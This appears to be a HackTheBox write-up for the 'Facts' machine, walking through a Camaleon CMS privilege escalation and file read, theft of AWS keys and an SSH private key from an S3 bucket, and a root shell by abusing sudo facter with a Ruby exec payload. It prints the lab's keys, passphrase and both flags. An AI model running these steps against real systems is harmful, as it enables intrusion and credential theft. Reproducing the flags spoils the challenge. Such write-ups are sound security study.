

# 🧠 HackTheBox – Facts

##  Overview

Facts is an easy-difficulty machine involving:

- Web exploitation (Camaleon CMS)
- Cloud misconfiguration (AWS S3)
- SSH key extraction
- Linux privilege escalation (facter abuse)

---

## 🔍 Attack Path

```mermaid
flowchart TD
A --> B
flowchart TD
    A[Nmap Scan] --> B[Web App Discovery]
    B --> C[Admin Panel Found]
    C --> D[User Registration]
    D --> E[Mass Assignment Vulnerability]
    E --> F[Admin Privilege Escalation]
    F --> G[Arbitrary File Read]
    G --> H[AWS Credentials Leak]
    H --> I[S3 Bucket Access]
    I --> J[SSH Private Key Exfiltration]
    J --> K[SSH as trivia]
    K --> L[User Flag]
    L --> M[Privilege Escalation via sudo facter]
    M --> N[Root Shell]
    N --> O[Root Flag]

## 🌐 Host Mapping

```bash
echo "10.129.35.249 facts.htb" | sudo tee -a /etc/hosts
```

Discovered endpoints:

* `/admin/login`
* `/admin/register`

Target CMS identified as **Camaleon CMS**

---

## 🔓 Attack Chain Overview



---

## 👤 Initial Access – Admin Privilege Escalation

A user account was created:

* **Username:** `mew1222`
* **Password:** `mew121212`

The application was vulnerable to:

* **CVE-2025-2304**
* Mass assignment in role handling

This allowed privilege escalation to **admin-level access**.

---

## 📂 Arbitrary File Read → Credential Discovery

Using:

* **CVE-2024-46987 (Camaleon CMS File Read)**

Sensitive configuration files were accessed, revealing AWS credentials.

---

## ☁️ AWS S3 Exploitation

### 🔐 Retrieved Credentials

* **Access Key:** `AKIAD337D13639BD95BE`
* **Secret Key:** `v9WTmIuNeeq4L5s72WobV6CQs6HIJVkrq7NdRpZb`
* **Region:** `us-east-1`
* **Buckets:**

  * `internal`
  * `randomfacts`
* **Endpoint:**

  ```
  http://facts.htb:54321
  ```

---

### 📦 Bucket Enumeration

```bash
aws --endpoint-url http://facts.htb:54321 s3 ls
```

Output:

```text
2025-09-11 07:06:52 internal
2025-09-11 07:06:52 randomfacts
```

Further enumeration of the internal bucket:

```bash
aws --endpoint-url http://facts.htb:54321 s3 ls s3://internal --recursive
```

---

### 📥 SSH Key Extraction

A sensitive SSH private key was discovered inside the bucket and extracted:

```bash
aws --endpoint-url http://facts.htb:54321 s3 cp s3://internal/.ssh/id_ed25519 .
```

---

### 🔑 Result

* File retrieved: `id_ed25519`
* Contains SSH private key for internal user access

After fixing permissions:

```bash
chmod 600 id_ed25519
```

---

## 🔐 SSH Access – User Trivia

Login performed using the recovered key:

```bash
ssh -i id_ed25519 trivia@facts.htb
```

Passphrase:

```text
dragonballz
```

Successful login granted shell access as:

```text
trivia@facts.htb
```

---

## 👤 User Flag

```bash
cat /home/william/user.txt
```

```text
f3688f6c8df43445205ca45636dd1a32
```

---

## ⚡ Privilege Escalation – facter Abuse

Sudo permission discovered:

```bash
sudo /usr/bin/facter --custom-dir /tmp
```

### Vulnerability

* `facter` loads Ruby scripts from a user-writable directory
* This allows arbitrary code execution as root

---

## 💥 Privilege Escalation Flow

```mermaid id="privesc_facts"
flowchart TD
    A[User: trivia] --> B[sudo facter --custom-dir /tmp]
    B --> C[Writable /tmp directory]
    C --> D[Drop malicious Ruby script]
    D --> E[facter executes script]
    E --> F[exec('/bin/sh')]
    F --> G[Root Shell]
```

---

### 🧨 Exploit Payload

```bash
echo 'exec("/bin/sh")' > /tmp/x.rb
sudo /usr/bin/facter --custom-dir /tmp
```

---

## 👑 Root Flag

```bash
cat /root/root.txt
```

```text
eda2a747798935ec25795011bb475bc6
```

---

## 📌 Key Takeaways

* Mass assignment vulnerabilities can directly lead to privilege escalation
* File read vulnerabilities often expose cloud credentials
* S3 misconfigurations remain a critical real-world risk
* Writable plugin/script directories in sudo contexts are extremely dangerous
* Full compromise was achieved through chaining multiple small flaws

---

## 🛠️ Tools Used

* Nmap
* Burp Suite / curl
* AWS CLI
* Python exploit scripts
* SSH
* Linux enumeration tools

---

## 🚩 Flags

### User Flag

```text
f3688f6c8df43445205ca45636dd1a32
```

### Root Flag

```text
eda2a747798935ec25795011bb475bc6
```

---

## 🧠 Final Thoughts

This machine demonstrates a realistic enterprise attack chain:

* Web application misconfiguration
* Cloud credential leakage
* Object storage abuse
* Linux privilege escalation via unsafe sudo tooling

Each vulnerability alone was minor, but combined they resulted in full system compromise.
